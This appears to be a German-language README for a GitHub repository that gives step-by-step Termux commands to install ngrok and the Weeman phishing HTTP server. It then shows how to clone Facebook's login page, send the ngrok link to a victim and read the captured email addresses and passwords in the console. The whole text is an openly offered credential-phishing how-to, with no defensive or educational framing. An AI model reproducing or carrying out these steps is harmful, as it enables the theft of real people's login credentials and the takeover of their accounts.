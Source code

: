 # Weeman - http server for phishing

# Zuerst "ngrok"

SCHRITT FÜR SCHRITT "WEEMAN" IN TERMUX INSTALLIEREN :-
Teilen Sie Ihre Links über das Internet und schappen Sie sich die Login-daten
 --> installieren NGROK im vorraus

-gehe per Browser auf https://ngrok.com/download und lade die "Linux ARM" Zip

-in Termux nutzen wir jetzt folgende Befehle:

1. > cd /sdcard/download
2. > unzip ngrok.zip
3. > cp ngrok $HOME
4. > cd $HOME
5. > ls
6. > chmod 777 ngrok
7. > ./ngrok
8. > ./ngrok authtoken 844ZM.... [kopiere den Orginal Code der dir angezeigt wird, sobald du dich eingelogt hast]

 zu 8.: ohne Authentifizierungs-Token läuft der Server bei NGROK max. 8h !!
        meldest Sie sich auf https://ngrok.com/ an und loggen Sie sich ein,
        um den Authentifizierungs-Token zu erhalten
        den Sie einfach in Termux einfügen

# Installieren

TIPPE


 > apt update && apt upgrade

dann TIPPE


 > pkg install git

kopieren den folgenden Link


 > git clone https://github.com/GottModusTermux/G0D

 > ls

 > cd G0D/weeman

 > pkg install python2

 > ls

 > python2 weeman.py
  
# Ausführen

nach dem Start folgende befehle

-Befehl 1 

 > set url yoursite.com

-Befehl 2 

 > set port 8080

-Befehl 3 

 > set action_url yoursite.com
  
-Befehl 4

 > run
  
Nun öffnet ihr einen Browser und sucht
LOCALHOST:8080 oder 127.0.0.1:8080.

# ERÖFFNE EINE FACEBOOK-PHISHING SEITE.

-TIPPE:

 > cd G0D/weeman

 > python2 weeman.py

 > set url https://www.facebook.com/

 > set port 8080

 > set action_url https://www.facebook.com/

 > run

Jetzt können Sie Ihre Facebook-Phishing Seite einfach per Ngrok an Ihr Opfer weiterleiten...

-Neues Termux Fenster öffnen

-gehe zum Ordner wo NGROK vorhanden ist
(hier im ordner G0D.... )
  > cd G0D

  > ./ngrok http 8080

Oben rechts den unteren Link kopieren, und nun verschicken
Beispiel:
"https://denLinkKopieren.ngrok.io -> localhost:8080

sobald das Opfer seine Login-Daten eingegeben hat, 
können Sie seine E-Mail-ID und sein Passwort in dem Termux Fenster "weeman" einsehen
(hochscrollen und "user: " | "pass: "suchen)

sobald "ngrok" beendet wird, ist der erstellte Link nicht mehr erreichbar !! 


HTTP server for phishing in python.
Version 1.7.1 is the last and latest version for weeman.
